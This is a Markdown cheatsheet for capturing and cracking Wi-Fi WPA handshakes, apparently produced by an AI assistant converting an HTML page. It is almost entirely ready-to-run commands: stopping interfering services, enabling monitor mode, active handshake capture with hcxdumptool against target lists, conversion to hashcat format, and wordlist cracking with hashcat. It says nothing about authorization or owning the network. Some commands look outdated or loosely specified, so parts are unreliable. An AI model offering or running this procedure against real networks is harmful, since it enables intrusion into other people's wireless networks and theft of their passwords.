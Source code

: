 Here is the HTML converted to Markdown for use on GitHub:

```markdown
# Wi-Fi Handshake Capture & Crack Cheatsheet 📡

## Table of Contents 📋

- [Preliminary Commands & Information Retrieval](#preliminary)
- [Capture & Conversion Phase](#capture)  
- [Additional Scans & Information](#additional)
- [Cracking Phase](#cracking)
- [5GHz Network Capturing Cheat Sheet](#5ghz)

## Preliminary Commands & Information Retrieval 🛠

**Secure Copy from Remote Device**

```
scp -r root@172.16.42.1:/root/example.pcapng /home/username/Desktop
```

📖 Downloads files from remote devices using SCP.

**Check Wireless Interfaces**  

```
iwconfig
```

📖 Displays wireless network interface details.

**Kill Interfering Services**

```
airmon-ng check kill
```

📖 Stops services that might interfere with wireless tools.

## Capture & Conversion Phase 🎯

**Set Wireless Card to Monitor Mode**

```
sudo ip link set wlan0 down
sudo iw wlan0 set monitor control  
sudo ip link set wlan0 up
```

📖 Prepares the wireless card for capture.

**Capture Handshakes with hcxdumptool**

```
hcxdumptool -i wlan1 -o dumpfile.pcapng --active_beacon --enable_status=15
```

📖 Captures packets from networks.

**Convert Captured File for Hashcat**

```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng 
```

📖 Converts packets for password cracking.

## Additional Scans & Information 📡

**Scan for Nearby Networks**

```
hcxdumptool --do_rcascan -i wlan1
```

📖 Scans and displays nearby networks.

## Cracking Phase 🔐

**Crack with Hashcat**

```
hashcat -m 22000 hash.hc22000 wordlist.txt
```

📖 Uses hashcat to attempt password cracks.

## 5GHz Network Capturing Cheat Sheet 📶

1. **Install Necessary Tools**

   ```
   sudo apt-get install hcxdumptool hcxtools
   ```

2. **Check for 5GHz Support**

   ```
   iw list
   ```

3. **Enable Monitor Mode**

   ```
   sudo ip link set wlan0 down
   sudo iw dev wlan0 set type monitor  
   sudo ip link set wlan0 up
   ```

4. **Set to 5GHz Channel**

   ```
   sudo iw dev wlan0 set channel 36
   ```

5. **Identify Target Networks**

   ```
   sudo hcxdumptool -i wlan0 --scan
   ```

6. **Capture Traffic**

   ```
   sudo hcxdumptool -i wlan0 --enable_status=1 -o output.pcapng --filterlist=filterlist.txt --filtermode=2
   ```

7. **Analyze Captured Traffic**

   ```
   hcxpcaptool -z output.hccapx output.pcapng
   ```

8. **Troubleshooting**

   ```
   sudo iw reg get
   sudo iw reg set US
   ```

9. **Switch Back to 2.4GHz**

   ```
   sudo ip link set wlan0 down
   sudo iw dev wlan0 set type monitor
   sudo iw dev wlan0 set channel 6  
   sudo ip link set wlan0 up
   ```

10. **List 2.4GHz Channels**

    ```
    iw phy phy0 channels
    iwlist wlan0 channel
    ```

```

Let me know if you need any clarification or have additional requirements for the Markdown format!
